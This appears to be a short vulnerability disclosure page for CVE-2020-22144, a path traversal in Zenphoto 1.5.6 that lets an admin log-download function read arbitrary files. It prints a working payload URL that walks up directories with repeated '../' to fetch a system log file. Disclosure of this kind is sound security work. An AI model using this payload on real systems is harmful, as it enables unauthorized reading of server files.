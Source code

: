 ```yaml
---
cve: "CVE-2020-22144"
title: "Path traversal in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-10
tags:
- cve
- path traversal
- lfd
---
```

An issue in `/zp-core/admin-logs.php` of Zenphoto 1.5.6 allows attackers to perform a directory traversal and read arbitrary log files.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22144

<hr />

**Description:**  
The admin function allows to download log files from the local system that are not suppose to.

**Details:**  
File: `/zp-core/admin-logs.php`  
Parameter: `filename`

**Payload:**  
```
/zp-core/admin-logs.php?action=download_log&page=logs&tab=setup&filename=../../../../../../../../../var/log/alternatives&XSRFToken=bcf89608fdaaa5e293ccd5f83d1614f05bfcbaae
```

**PoC:**  
![cve-2020-22144 Zenphoto path traversal](/images/cve-2020-22144.png)
